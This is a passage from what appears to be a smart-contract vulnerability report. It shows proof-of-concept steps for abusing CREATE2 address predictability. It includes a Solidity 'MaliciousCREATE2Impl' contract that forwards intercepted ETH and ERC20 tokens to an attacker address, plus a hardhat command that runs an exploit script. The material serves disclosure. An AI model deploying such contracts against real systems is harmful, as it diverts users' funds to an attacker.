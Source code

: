 5. Get a proper malicious contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import "@openzeppelin/contracts-upgradeable/token/ERC20/IERC20Upgradeable.sol";

contract MaliciousCREATE2Impl {

  // The attacker's address; funds intercepted will be sent here
    address payable public attackerAddress;

    constructor(address payable _attackerAddress) {
        attackerAddress = _attackerAddress;
    }

   // Fallback function to intercept ETH sent to this contract
    receive() external payable {
        if (msg.value > 0) {
            attackerAddress.transfer(msg.value);
        }
    }

   // Intercept any ERC20 tokens sent to this contract and forward to attacker
    function interceptTokens(address tokenAddress, uint256 amount) external {
        require(msg.sender == attackerAddress, "Not the attacker");
        IERC20Upgradeable(tokenAddress).transfer(attackerAddress, amount);
    }
    
   // Emergency function to recover funds in case something goes wrong
    function emergencyWithdraw() external {
        require(msg.sender == attackerAddress, "Not the attacker");
        attackerAddress.transfer(address(this).balance);
    }
}
```

6. Finally, run the script:

   ```bash
   npx hardhat run exploit.js
   ```

7. Observe that the addresses printed match and thus exploit the exposed behavior, basically demonstrating the vulnerability.

For those unfamiliar with the `create2` opcode, it's essential to understand that its predictability is both a feature and a possible vulnerability. While its deterministic nature can be harnessed for certain beneficial use-cases in Ethereum, **when mismanaged, it can become a loophole for malicious actors**. [Learn more about CREATE2](https://blog.openzeppelin.com/getting-the-most-out-of-create2/).

This approach provides tangible evidence of the vulnerability's exploitability and emphasizes the urgency of addressing it.